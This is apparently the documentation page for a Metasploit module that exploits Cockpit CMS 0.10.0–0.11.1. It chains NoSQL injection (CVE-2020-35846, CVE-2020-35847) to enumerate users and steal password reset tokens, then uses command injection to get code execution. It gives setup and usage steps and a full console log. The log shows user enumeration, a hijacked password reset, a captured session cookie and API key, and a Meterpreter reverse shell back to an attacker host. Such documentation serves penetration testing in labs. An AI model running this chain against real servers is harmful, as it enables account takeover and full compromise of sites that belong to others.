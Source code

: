 ## Vulnerable Application

This module exploits two NoSQLi vulnerabilities to retrieve the user list,
and password reset tokens from the system.  Next, the USER is targeted to
reset their password.

Then a command injection vulnerability is used to execute the payload.
While it is possible to upload a payload and execute it, the command injection
provides a no disk write method which is more stealthy.

The following versions of Cockpit CMS contain all the necessary vulnerabilities for exploitation:

* 0.11.1
* 0.11.0
* 0.10.2
* 0.10.1
* 0.10.0

### Install

Use docker:

```
docker run -p 8080:80 agentejo/cockpit:0.10.0
```

Or follow https://blog.sommerfeldsven.de/how-to-install-cockpit-cms-on-nginx/

MAKE SURE TO BROWSE TO `/install` TO FINISH INSTALL!!

Some useful addresses which don't seem to be well documented:

* `/finder` for a file system browser
* `/accounts` for adding accounts
* `/install` to finish install

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/multi/http/cockpit_cms_rce`
1. Do: `run`
1. Do: `set USER [user]`
1. Do: `run`
1. You should get a shell.

## Options

### ENUM_USERS

Use CVE-2020-35846 to enumerate users on the system.

### USER

Username to reset the password of, and login as to perform the command injection with. Defaults to `''`

## Scenarios

### Cockpit CMS 0.11.1 on Ubuntu 20.04

#### Obtain list of users

```
[*] Processing cockpit.rb for ERB directives.
resource (cockpit.rb)> use exploit/multi/http/cockpit_cms_rce
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
resource (cockpit.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (cockpit.rb)> set verbose true
verbose => true
msf6 exploit(multi/http/cockpit_cms_rce) > check

[*] Attempting Username Enumeration (CVE-2020-35846)
[*] 2.2.2.2:80 - The target appears to be vulnerable.
msf6 exploit(multi/http/cockpit_cms_rce) > run

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Attempting Username Enumeration (CVE-2020-35846)
[+]   Found users: ["admin", "asdf22", "4g4gsegs"]
[-] Exploit aborted due to failure: bad-config: 2.2.2.2:80 - User to exploit required
[*] Exploit completed, but no session was created.
```

#### Exploit user

```
msf6 exploit(multi/http/cockpit_cms_rce) > set user asdf22
user => asdf22
msf6 exploit(multi/http/cockpit_cms_rce) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Attempting Username Enumeration (CVE-2020-35846)
[+]   Found users: ["admin", "asdf22", "4g4gsegs"]
[*] Obtaining reset tokens (CVE-2020-35847)
[*] Attempting to generate tokens
[*] Obtaining reset tokens (CVE-2020-35847)
[+]   Found tokens: ["rp-09397d385d8b4d781906f1bde62a3da8607c4193bc15c"]
[*] Checking token: rp-09397d385d8b4d781906f1bde62a3da8607c4193bc15c
[*] Obtaining user info
[*]   user: asdf22
[*]   email: none@none.com
[*]   active: true
[*]   group: admin
[*]   i18n: en
[*]   api_key: account-8d9e39cf206a7392d292efc281e824
[*]   password: $2y$10$R4mShvdxnXxxnTH85apRLedSWfYbOk4qsGQwG7apOfdQBVRnhEcme
[*]   name: dsf22
[*]   _modified: 1618755509
[*]   _created: 1618755500
[*]   _id: 607c3fac62336679e30002c3
[*]   _reset_token: rp-09397d385d8b4d781906f1bde62a3da8607c4193bc15c
[*]   md5email: 3eda6fcd3204ef285fa52176c28c4d3e
[+] Changing password to BoicMQSMPv
[+] Password update successful
[*] Attempting login
[+] Valid cookie for asdf22: c8695f6d766afc426d0e99f58fb04e0d=d3t7e356h03eufhuc55g91kgsb;
[*] Attempting RCE
[*] Sending stage (39282 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:37260) at 2021-04-18 10:26:27 -0400

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : ubuntu2004
OS          : Linux ubuntu2004 5.4.0-56-generic #62-Ubuntu SMP Mon Nov 23 19:20:19 UTC 2020 x86_64
Meterpreter : php/linux
```
